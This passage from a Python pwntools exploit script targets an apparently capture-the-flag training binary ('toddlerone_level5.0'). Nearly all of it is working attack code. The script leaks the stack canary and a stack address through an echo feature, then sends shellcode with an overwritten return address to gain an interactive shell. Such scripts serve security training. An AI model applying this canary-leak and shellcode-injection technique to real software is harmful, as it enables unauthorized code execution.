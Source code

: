 ```python
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode_2.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
exit_code = p64(0xF55A7AC1D88E5605)
real_payload = shellcode + 8 *b'A' + exit_code + 8 *b'A' + 8 *b'A' + canary_value + 8*b'A'+ return_address
p.send(real_payload)
p.interactive()
exit()

elf = ELF("/challenge/toddlerone_level5.0")
p = process("/challenge/toddlerone_level5.0")
p.recvuntil("Payload size: ")

init_payload_size = 0x20  + 8 + 1
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
canary_value = response[init_payload_size:init_payload_size+7].rjust(8, b'\x00')
canary_value = p64(u64(canary_value))
print(f"canary_value: {canary_value}")

init_payload_size = 0x20  + 8 + 8 + 8 + 8 
p.recvuntil("Payload size: ")
p.sendline(f"{init_payload_size}")
init_payload = b'REPEAT' + b'A' * (init_payload_size - 6)
p.send(init_payload)
p.recvuntil("You said: ")
response = p.recvline().strip()
print(response)
stack_value = response[init_payload_size:].ljust(8, b'\x00')
stack_value = u64(stack_value)
print(f"stack_value: {p64(stack_value)}")


return_address = p64(stack_value - 0xA0 - 0xA0 - 0x40)

real_payload_size = 0x20 + 0x8 + 0x8 + 0x8 + 0x8 + 0x8 + 0x8

p.recvuntil("Payload size: ")
p.sendline(f"{real_payload_size}")
shellcode_file = open("/home/hacker/exploit/level3/shellcode_2.bin", "rb")
shellcode = shellcode_file.read()
shellcode_size = len(shellcode)
exit_code = p64(0xc47c70dcf4a8eb20)
real_payload = shellcode + exit_code + 8 *b'A' + canary_value + 8*b'A'+ 8*b'A'+ 8*b'A' + return_address
p.send(real_payload)

p.interactive()
```
